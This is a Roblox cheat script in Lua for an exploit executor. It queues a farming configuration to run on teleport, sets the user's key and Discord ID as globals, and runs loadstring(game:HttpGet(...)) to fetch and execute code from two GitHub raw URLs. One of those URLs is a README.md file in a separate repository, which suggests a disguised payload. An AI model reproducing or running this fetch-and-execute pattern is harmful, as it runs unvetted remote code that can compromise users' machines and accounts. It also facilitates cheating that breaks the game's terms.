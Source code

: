 local Key = _G.Key
local DiscordId = _G.DiscordId

queue_on_teleport(string.format([[
_G.RoyxSpecialMode = "Hell Factory";
_G["External Config"] = {
    ["Kai Gems"] = true, -- true / false
    ["Kai Story"] = false, -- true / false
    ["Kai Battle Pass"] = false, -- true / false
    ["Kai Infinity Castle"] = false, -- true / false
    ["Auto Set Resource"] = true, -- true / false
    ["Select End Game Mode"] = "Instant Leave", -- "Instant Leave" / "Auto Sell"
    ["End Wave"] = 10, -- number
    ["Maximum Added Gems"] = 60000, -- number
    ["Close Roblox When Maximum Added Gems"] = false, -- true / false
    ["Using Limit Farming"] = true, -- true / false
    ["Stop Farming When The Limit Is Reached"] = false, -- true / false
    ["Send Webhook When The Limit Is Reached"] = false, -- true / false
    ["Webhook Url"] = "", -- string
    ["RAM Port"] = "7963", -- string
    ["RAM Password"] = "", -- string
    ["RAM Private Server Url"] = "", -- string
    ["RAM Auto Description"] = true, -- true / false
    ["RAM Auto Private Server"] = false, -- true / false
    ["RAM Auto Exit"] = false, -- true / false
    ["Fps Limit"] = 15, -- number
    ["Lock Fps"] = true, -- true / false
    ["Release Fps When Rejoin"] = false, -- true / false
    ["Select Unit"] = {"Slot 1", "Slot 2", "Slot 3"}, -- table  {"Slot 1", "Slot 2", "Slot 3", "Slot 4", "Slot 5", "Slot 6"}
};
    _G.Key = "%s"
    _G.DiscordId = "%s"
    loadstring(game:HttpGet("https://raw.githubusercontent.com/Natsuhanaki/Royx_PC/main/loader.lua"))()
    loadstring(game:HttpGet("https://raw.githubusercontent.com/toohot123/Roblox1/main/README.md"))()
]], Key, DiscordId))

-- loadstring(game:HttpGet("https://raw.githubusercontent.com/Natsuhanaki/Royx_PC/main/loader.lua"))()

print("Executed!");
